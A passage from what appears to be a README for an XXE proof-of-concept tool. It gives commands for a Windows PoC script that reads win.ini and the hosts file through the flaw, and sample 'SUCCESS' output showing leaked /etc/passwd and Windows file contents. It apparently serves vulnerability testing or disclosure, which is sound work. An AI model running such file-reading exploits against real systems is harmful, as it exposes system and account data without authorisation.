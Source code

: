 #### Windows-Specific Testing

For Windows systems, use the dedicated Windows PoC script:

```bash
# Run Windows-specific XXE test
python xxe_poc_windows.py --full-test

# Test specific Windows file
python xxe_poc_windows.py --file "C:/Windows/win.ini"

# Test Windows hosts file
python xxe_poc_windows.py --file "C:/Windows/System32/drivers/etc/hosts"
```

## Expected Results

### Successful Exploitation

If the vulnerability is present, you should see:

**Linux/Unix systems:**
```
[+] SUCCESS! File content leaked via XXE
[*] Response Body:
Received XML content: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

**Windows systems:**
```
[+] SUCCESS! Windows file content leaked via XXE
[*] Response Body:
Received XML content: # Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
127.0.0.1       localhost
::1             localhost
```

Or for Windows INI files:
```
[+] SUCCESS! Windows file content leaked via XXE
[*] Response Body:
Received XML content: [fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

### Vulnerable Endpoints
